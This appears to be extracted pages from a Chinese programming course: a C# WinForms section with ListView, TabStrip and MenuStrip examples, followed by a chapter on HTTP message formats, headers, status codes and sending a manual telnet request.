

##### 4.1.7 ListView 控件

如图34所示，显示了 Windows 中最常用的 ListView 控件。Windows 为显示文件和文件夹提供了许多其他方式，ListView 控件就包含其中一些方式，例如显示大图标、详细视图等。

ListView 控件是很复杂的一个控件，它包括了超出本书范围的内容，这里仅编写一个示例，使用 ListView 控件中最常见的功能，为后面的内容打下基础。ListView 控件常见属性如下：



| 名称/属性 | 描述/说明 |
|---|---|
| CheckBoxes | 为 true 时列表视图中的每个选项会在左边显示一个复选框，只有在 View 属性是 Details 或 List 时，才可用 |
| Columns | 列表视图可以包含列 |
| Items | 列表视图中的选项集合 |
| View | 列表视图可以用 4 种不同的模式显示其选项：LargeIcon、SmallIcon、List、Details |
| MultiSelect | 这个属性设置为 true 时，用户可以选择多个选项 |
| Scrollable | 这个属性设置为 true 时，就显示滚动条 |

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为 listView_test。

在窗体上添加一个 ListView 控件、两个 button 控件，分别用两种方法来添加列表视图的项。

设置 ListView 控件的 View 属性为 Details，设置 CheckBoxes 属性为 true，在 Columns 属性中添加两列“column1”和“column2”。

编写按钮的“Click”事件的响应代码：

```csharp
private void button1_Click(object sender, EventArgs e)
{
    listView1.Items.Clear();
    // 新建一个 ListViewItem 对象并初始化
    ListViewItem itemTmp = new ListViewItem(new string[] { "username", "password" });
    // 通过 Items 集合把 ListViewItems 添加到 ListView 中
    listView1.Items.Add(itemTmp);
}
```

```csharp
private void button2_Click(object sender, EventArgs e)
{
    // 彻底清除列表视图，删除所有的选项和列
    listView1.Items.Clear();
    // 列表视图添加一列
    listView1.Items.Add("content");
    // 对第 0 项添加一列（即第二列）
    listView1.Items[0].SubItems.Add("content");
}
```



图35 单击“添加1”按钮后的效果



图36 单击“添加2”按钮后的效果

列表视图中的选项总是 ListViewItem 类的一个实例。ListViewItem 包含要显示的信息，如文本和图标的索引。通过 Items 集合把 ListViewItems 添加到 ListView 中。listView1.Items.Clear() 清除列表视图，删除所有的选项和列。

按“Ctrl+F5”编译运行，单击“添加1”和“添加2”按钮，运行效果分别如图35、图36所示。

##### 4.1.8 TabStrip 控件

TabStrip 控件就像笔记本中的分隔标签或一组文件夹上的标签。使用 TabStrip 控件，可以在应用程序中的窗口或对话框中同一区域定义多个数据页面。

默认安装 VS2005 并没有提供这个控件，我们可以手动把这个控件添加到 VS2005 中。右击工具箱，然后从快捷菜单中选择“选择项”，打开“选择工具箱项”对话框，选择“.NET Framework 组件”选项卡并单击“浏览”，找到我们提供的“TabStrip.dll”并选择，如图 37 所示。



图 37 添加 TabStrip 控件

单击确定后，会在 VS2005 工具箱的下面出现一个新的控件“FaTabStrip”。这样我们就可以按照普通控件的方法来使用这个新添加的控件了。

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为 tabStrip_test。



图 38 两个页面上控件互不影响

在窗体上添加一个 TabStrip 控件。右击 TabStrip 控件，选择属性，设置 Dock 属性为 bottom，在 Items 属性中添加两项——“第一页”、“第二页”。在第一页中添加几个控件，单击“第二页”，在第二页中添加几个控件。

按“Ctrl+F5”编译运行，在“第一页”和“第二页”之间切换，可以看到各自页面里面的控件而不影响其他页面里面的控件，如图 38 所示。

#### 4.2 菜单栏和工具栏

菜单和工具栏是 Windows 应用程序中常用的控件，用来实现程序与用户的交互。VS2005 提供了一个名为“菜单和工具栏”的工具箱，其中提供了几个常用的控件：

- 标准菜单 MenuStrip：类似于普通软件的标准菜单，如 Word 中的“文件”“编辑”菜单等。
- 工具栏 ToolStrip：工具栏是一些带图像的小按钮，类似于 Word 中的工具栏，通常提供菜单项的一些便捷操作。
- 状态栏 StatusStrip：在界面的下方，用于提示用户信息的一栏，类似于 Windows 操作系统中的状态栏。

以菜单为例介绍简单的使用方法。打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为 menu_test。

从“菜单和工具栏”工具箱中，拖放一个“MenuStrip”控件到窗口上，如图 39 所示。



图 39 添加“MenuStrip”控件

其中包含一个白色的文本框，写着“请在此处键入”。单击白色文本框，出现如图 40 所示的界面。

在右边和下边分别延伸出两个白色文本框，右边是和当前菜单的同级菜单，下边是当前菜单的子菜单。



图 40 添加菜单内容



图 41 设计好的菜单效果

用鼠标指向最下面一个未创建的菜单，右边有一个三角形的下拉框按钮，单击此按钮会出现一个快捷菜单，其中有 4 个选项：MenuItem、ComboBox、Separator 和 TextBox。“Separator”用来在菜单之间添加分隔符。

编辑第一个菜单项，编辑后的效果如图 41 所示。双击“文件”菜单下的“新建”菜单，切换到按钮的“MenuItem_Click”事件中，编辑单击菜单的处理函数。`Application.Exit()` 退出当前程序。

```csharp
private void 新建NToolStripMenuItem_Click(object sender, EventArgs e)
{
    MessageBox.Show("你单击了新建菜单项我要退出了！");
    Application.Exit();
}
```

## 糯米课堂 HTTP 编程基础知识

nohack.me

## 第二章 HTTP 编程基础知识

### 1 HTTP 协议基础知识

HTTP 超文本传输协议用于传送 WWW 方式的数据，HTTP 协议采用了请求/响应模型。客户端向服务器发送一个请求，包含请求的方法、URI、协议版本、修饰符、客户信息和内容等。服务器以一个状态行作为响应，响应的内容包括消息协议的版本、成功或者错误的信息、返回的内容等。

#### 1.1 HTTP 协议的工作原理

HTTP 协议的工作原理包括下面几个步骤：

- 1) 连接：浏览器与服务器建立连接。
- 2) 请求消息：浏览器向服务器提交请求消息，HTTP 请求一般是 GET 或 POST 命令。
- 3) 应答消息：浏览器提交请求消息后，通过 HTTP 协议传送给服务器。服务器进行处理后发送应答消息，将处理结果以 HTML 代码的形式传回给浏览器。
- 4) 关闭连接。



#### 1.2 HTTP 消息

通常 HTTP 消息包括客户机向服务器的请求消息和服务器向客户机的响应消息。这两种类型的消息由一个起始行、一个或者多个头域、一个仅表示头域结束的空行和可选的消息体组成。HTTP 的头域包括通用头、请求头、响应头和实体头四个部分。每个头域由一个域名、冒号（:）和值三部分组成。

##### 1.2.1 通用头域

通用头域包含请求和响应消息都支持的头域，通用头域包含 Cache-Control、Connection、Date、Pragma、Transfer-Encoding、Upgrade、Via 等头域。

Cache-Control 头域指定请求消息和响应消息的缓存机制。请求消息的缓存机制包括 no-cache、no-store、max-age、max-stale、min-fresh、only-if-cached。响应消息的缓存机制包括 public、private、no-cache、no-store、no-transform、must-revalidate、proxy-revalidate、max-age。（no-cache 指示请求或响应消息不能缓存，no-store 用于防止重要的信息被无意中发布。）

Date 头域表示消息发送的时间。例如 `Date: Mon, 31 Dec 2001 04:25:57 GMT`。

Pragma 头域用来包含实现特定的指令，最常用的是 `Pragma: no-cache`，它的含义和 `Cache-Control: no-cache` 相同。

##### 1.2.2 HTTP 请求消息格式

```
请求 Method | 空格 | Request-URI | HTTP-Version | 回车
```

请求方法 Method 表示对于 Request-URI 提交的方法，包括 OPTIONS、GET、HEAD、POST、PUT、DELETE、TRACE。

| 方法 | 说明 |
|---|---|
| GET | 请求读取一个 Web 页面 |
| HEAD | 请求读取一个 Web 页面的头标 |
| PUT | 请求存储一个 Web 页面 |
| POST | 向 Web 服务器提交数据 |
| DELETE | 删除 Web 页面 |
| HTTP | 请求 POST 和 GET 的区别 |

- 1. GET 是从服务器上获取数据，POST 是向服务器传送数据。GET 也能够向服务器传送较少的数据，而 GET 之所以也能传送数据，是用来告诉服务器，需要请求得到什么样的数据。
- 2. POST 与 GET 在 HTTP 中传送的方式不同，GET 的参数是在 HTTP 的头部传送的，而 POST 的数据则是在 HTTP 请求的内容里传送。
- 3. POST 传输数据时，不需要在 URL 中显示出来，而 GET 方法要在 URL 中显示。
- 4. GET 方法由于受到 URL 长度的限制，只能传递大约 1024 字节。POST 传输的数据量大，可以达到 2M。
- 5. GET 安全性非常低，POST 安全性较高。

Request-URI 是请求的 URL 地址。

HTTP-Version 表示支持的 HTTP 版本，例如为 HTTP/1.1。

典型的请求消息如下：

```
GET http://www.test.com:80/test.htm HTTP/1.1
Host: www.test.com
Accept: */*
Pragma: no-cache
Cache-Control: no-cache
Referer: http://www.test.com/
User-Agent: Mozilla/4.04
```

第一行表示 HTTP 客户端通过 GET 方法获得指定 URL 下的文件 test.htm。

- **Host 头域**：指定请求资源的 Internet 主机和端口号。
- **Referer 头域**：允许客户端指定请求 URL 的资源源地址，这可以允许服务器生成回退链表，可用来登录、优化 cache 等。
- **User-Agent 头域**：包含发出请求的用户信息，如浏览器的名称和版本。

##### 1.2.3 HTTP 响应消息格式

`HTTP-Version | 空格 | Status-Code | 空格 | Status-Code 描述`

HTTP-Version 表示支持的 HTTP 版本，例如为 HTTP/1.1。  
Status-Code 是一个三位数字的结果代码。

- **1xx**：表示接收到请求并且继续处理。
- **2xx**：表示服务器成功接收。
- **3xx**：重定向响应类。
- **4xx**：客户端包含语法错误或者不能正确执行。
- **5xx**：服务器不能正确执行一个正确的请求。

Reason-Phrase 给 Status-Code 提供一个简单的文本描述。典型的响应消息如下：

```
HTTP/1.1 200 OK
Date: Mon, 31 Dec 2001 04:25:57 GMT
Server: Apache/1.3.14 (Unix)
Content-type: text/html
Last-modified: Tue, 17 Apr 2001 06:46:28 GMT
Etag: "a030f020ac7c01:1e9f"
Content-length: 39725426
Content-range: bytes 554554-40279979/40279980
```

第一行表示 HTTP 服务端响应一个 HTTP 请求，服务器成功接收。  
Server 头域包含处理请求的原始服务器的软件信息、Web 服务器软件产品标识和注释，这里是 Apache，版本为 1.3.1。

- **Allow 头域**：指定服务器支持的请求方法（GET、POST 等）。
- **Connection 头域**：close 值，指定浏览器不使用持续性的 HTTP 连接。
- **Content-Encoding 头域**：标明页面在传输过程中所使用的编码方式。
- **Content-Language 头域**：文档使用的语言。
- **Content-Length 头域**：响应中的字节数。
- **Content-Type 头域**：表示后面的文档属于什么 MIME 类型，但通常需要显式地指定为 `text/html`。
- **Expires 头域**：应该在什么时候认为文档已经过期，从而不再需要继续缓存。
- **Last-Modified 头域**：标明文件最后的修改时间。
- **Refresh 头域**：N 秒之后刷新本页面或访问指定页面。
- **Set-Cookie 头域**：指定一个同页面相关的 Cookie，设置和页面关联的 Cookie。

### 2 观察 HTTP 协议的通讯过程

利用 telnet 工具，通过手动输入 HTTP 请求信息的方式向服务器发出请求。服务器会返回一个响应，该响应会在 telnet 窗口上显示出来。

### 2.1 telnet 设置

开始 --> 运行 --> cmd --> telnet，打开 telnet，输入 `set localecho`，打开 telnet 回显功能，如图 2 所示。


#### 2.2 发送请求得到回显

```text
open www.google.cn 80 // 注意端口号不能省略
HEAD /robots.txt HTTP/1.1
HOST: www.google.cn
```

具体如图 3 所示。上面请求消息得到的响应：



```text
